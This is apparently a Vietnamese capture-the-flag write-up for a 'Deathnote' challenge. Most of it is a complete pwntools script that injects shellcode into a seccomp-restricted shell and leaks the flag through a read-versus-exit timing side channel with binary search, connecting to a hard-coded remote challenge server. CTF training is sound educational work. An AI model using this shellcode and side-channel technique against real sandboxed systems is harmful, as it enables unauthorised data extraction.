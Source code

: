 **Write-up for week 1 tasks**
---

**1. Deathnote-challenge:**
* Nhìn sơ qua, challenge sẽ cho ta thao tác trên Ryuk bash:
    * ![image](https://hackmd.io/_uploads/H1eV6d89T.png)
* Qua kiểm tra thì các hàm khác bình thường, hàm cat không cat flag.txt được, chỉ có hàm loadflag và hàm exec là khả nghi
    * ![image](https://hackmd.io/_uploads/rJt06_Lca.png)

* Theo source code thì loadflag sẽ truyền flag vào mảng flag được khai báo ngoài đồng thời apply seccomp, trong đó seccomp sẽ chỉ cho phép thực hiện syscall đối với open, mmap, exit và exit_ground
    * ![image](https://hackmd.io/_uploads/By7_0_Iqa.png)

* Kết hợp điều kiện của seccomp và đọc qua hàm exec thì có thể chắc chắn rằng cách duy nhất để lấy được flag là dùng hàm exec thể inject shellcode nhưng bị giới hạn syscall chỉ được read, exit và exit_ground

* Sau khi thử nhiều lần thì mình đã có thể viết shellcode lấy được địa chỉ của flag cũng như có thể tự do điều khiển chương trình theo ý muốn dù có aslr thông qua con trỏ chương trình đặt ở đầu stack khi exec shellcode và việc vị trí tương đối của address flag và address lưu tại rsp là không đổi
    * ![image](https://hackmd.io/_uploads/SkvaJt89T.png)

* Tuy nhiên còn một vấn đề nữa là dù mình xác định được địa chỉ của flag, biết nội dung của flag trên remote nhưng seccomp đã chặn khiến mình không thể lấy được dữ liệu về, vậy nên được gợi ý, mình dùng true false attack để bruteforce flag
    * Đối với challenge này tuy đã chặn syscall write để có thể lấy dữ liệu nhưng vẫn còn một cách để ta xác định xem liệu char mình brute có đúng hay không. Vì nếu như session ended thì ta có thể kiểm tra được bằng việc thử nhận dữ liệu từ session, nếu có thể nhận thì session chưa ended, nếu không thì session đã ended.
    * Lợi dụng điều này, trong shellcode của mình sẽ kiểm tra xem char mình brute có giống với char của flag hay không, nếu có thì sẽ syscall read để session có thể đợi nhận dữ liệu, còn nếu không thì sẽ syscall exit để session ended, từ đó có thể true false attack được

Đây là payload mình dùng để bruteforce:``Đã cập nhật lại code tối ưu thời gian chạy``
* Tối ưu bằng chặt nhị phân
    * Ở đây vì mình có thể biết char brute lớn hơn hay nhỏ hơn char flag, nên có thể đặt điều kiện so sánh giữa char brute với char flag làm điều kiện chẻ, từ đó có thể dùng chặt nhị phân để giảm thời gian bruteforce
```python!
from pwn import *
#Vì để tránh null byte nên mình sẽ xor các giá trị với 0xffffffffffffffff trong thanh ghi sau đó xor lại lần nữa 

#Khởi tạo địa chỉ của flag, sau khi add rbx, rax thì rbx chứa địa chỉ của flag
flag_add = asm('''
                mov rbx, QWORD PTR [rsp]
                mov rax, 0xffffffffffffd4c5
                xor rax, 0xffffffffffffffff
                add rbx, rax
''', arch= 'amd64', os='linux')

#Khởi tạo thanh ghi để call read với rax là địa chỉ của hàm read, rdi = 0 (từ stdin) và rsi là địa chỉ ghi vào còn rdx là số kí tự
init = asm('''
                mov rax, rbx
                add rax, 0xffffffffffffd120
                xor rdi, rdi
                mov rsi, rbx
                add rsi, 0xffffffffffffd1b0
                mov rdx, 0xffffffffffffffff
                xor rdx, 0xffffffffffffffb0
''', arch = 'amd64', os = 'linux')

#Khởi tạo rdx, rcx trước khi xor, trong đó rdx sẽ là char brute j, rcx sẽ là char flag
setup1 = asm('''
                    mov rdx, 0xffffffffffffffff
                    mov rcx, 0xffffffffffffffff
''', arch = 'amd64', os = 'linux')

#Kết thúc xor và đưa char flag vào rcx
setup3 = asm('''
                    add rcx, rbx
                    mov rcx, qword ptr[rcx]
''', arch = 'amd64', os = 'linux')

#Điều kiện chẻ để call read hay exit: nếu char brute j <= char flag thì sẽ call read để hàm check return true, nếu không call exit() để hàm check chạy except return false
#Vì nếu rax đã được khởi tạo là địa chỉ của hàm read, nếu như true thì chỉ việc call, còn không thì sẽ đổi lại để rax là địa chỉ của hàm exit rồi mới call
call_exit = asm('''
                cmp cl, dl
                jge end
                mov rax, rbx
                add rax, 0xffffffffffffd1b0
                jmp end
                nop
                end:
                    call rax
''', arch = 'amd64', os = 'linux')

flag = []
set2_1 = [] #Mảng prebuild shellcode xor để đưa char brute j vào shellcode
set2_2 = [] #Mảng prebuild shellcode xor để đưa vị trí brute i vào shellcode

#Do i, i + 1 khi xor với 0xff sẽ thành 0xf(f - i), 0x(f - i - 1) nên mình set set_2[i] = set_2[i - 1] - 1

#Khởi tạo mảng prebuild shellcode xor char j
for j in range(0, 32):
    set2_1.append('')
set2_1.append(asm("xor rdx, " + hex(32 ^ 0xffffffffffffffff), arch = 'amd64', os = 'linux'))
for j in range(33, 128):
    set2_1.append(bytes.fromhex((hex(int(set2_1[j - 1].hex(), 16) - 1)[2::])))

#Khởi tạo mảng prebuild shellcode xor vị trí i
set2_2.append(asm("xor rcx, " + hex(0 ^ 0xffffffffffffffff), arch = 'amd64', os = 'linux'))
for i in range(0, 0x32):
    flag.append('')
    if(i == 0):
        continue
    set2_2.append(bytes.fromhex((hex(int(set2_2[i - 1].hex(), 16) - 1)[2::])))

#Hàm kiểm tra tại vị trí i char brute j với char flag
def check(i, j):
    setup2 = set2_1[j]
    setup2 += set2_2[i]
    with remote("18.136.148.247", 14257) as chall:
        chall.sendlineafter(b'note$ ', b'loadflag')
        chall.sendline(b'exec ' + flag_add + init + setup1 + setup2 + setup3 + call_exit)
        try:
            chall.recv(timeout = 0.1)
        except:
            return 0
    return 1

#Chặt nhị phân char brute tại vị trí k, nếu char brute <= char flag thì true, ngược lại false
def brute(k):
    l = 32
    r = 127
    m = int((l + r) / 2)
    while(1):
        if (check(k, m) == 1):
            l = m
        else:
            r = m
        m = int((l + r) / 2)
        if(l == m): 
            break
        if(r == m):
            break
    if(check(k, r)):
        return chr(r)
    return chr(l)

for i in range(0, 0xff):
    flag[i] = brute(i)
    if(flag[i] == '}'):
        break

#In flag
for i in range(0, 0xff):
    print(flag[i], end='')
    if(flag[i] == '}'):
        break
```
=> Flag: `kira{https://www.youtube.com/watch?v=tAMhUyLwD4k}`